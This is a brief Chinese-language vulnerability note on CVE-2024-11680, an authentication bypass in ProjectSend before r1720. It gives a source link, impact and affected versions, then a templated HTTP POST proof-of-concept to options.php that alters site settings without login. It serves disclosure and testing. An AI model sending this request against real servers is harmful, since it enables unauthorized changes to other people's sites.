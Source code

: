 # CVE-2024-11680
>   ProjectSend 是一个开源文件共享Web应用程序，旨在促进服务器管理员和客户端之间的安全、私密文件传输。
# 来源
[https://vulncheck.com/blog/projectsend-exploited-itw](https://vulncheck.com/blog/projectsend-exploited-itw)
# 简介

ProjectSend r1720 之前版本中存在身份验证绕过漏洞，未经身份验证的远程攻击者可通过向options.php发送恶意构造的HTTP POST请求来利用该漏洞，成功利用可能导致更改站点配置、上传恶意文件或注入恶意 JavaScript。

# 漏洞类型

身份验证绕过

# 影响范围
-   ProjectSend < r1720

# POC

```http
POST /options.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

csrf_token={{csrf}}&section=general&this_install_title={{string}}
```

